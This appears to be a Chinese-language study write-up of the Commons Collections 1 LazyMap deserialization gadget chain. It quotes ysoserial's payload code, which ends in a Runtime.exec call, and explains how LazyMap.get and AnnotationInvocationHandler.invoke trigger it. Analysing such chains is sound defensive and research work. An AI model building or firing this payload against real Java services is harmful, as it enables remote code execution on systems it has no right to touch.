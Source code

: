 ```java
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return handler;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections1.class, args);
	}

	public static boolean isApplicableJavaVersion() {
        return JavaVersion.isAnnInvHUniversalMethodImpl();
    }
}

```
效果如下
![image.png](./Commons Collections1 LazyMap 利用链.assets/2023_05_19_10_37_38_O0zRdmKl.png)
`TransformedMap`是在写入元素的时候执行`transform`方法，`LazyMap`是在其`get`方法中执行的 `this.factory.transform`
`LazyMap`的作用是“懒加载”，在get找不到值的时候，它会调用 `this.factory.transform` 方法去获取一个值
```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```
factory也是可控的
```java
protected LazyMap(Map map, Transformer factory) {
    super(map);
    if (factory == null) {
        throw new IllegalArgumentException("Factory must not be null");
    }
    this.factory = factory;
}
```
所以构造poc的时候只要令`factory`为精心构造的`ChainedTransformer`就行，因此我们找一下哪里可能调用了`LazyMap`的`get`方法
但是我们在`AnnotationInvocationHandler#readObject`函数中并没有看到有执行`get方法`，所以ysoserial找到了另一条路，`AnnotationInvocationHandler`类的`invoke方法`有调用到`get`：
![image.png](./Commons Collections1 LazyMap 利用链.assets/2023_05_19_10_37_39_MQ2KBDs9.png)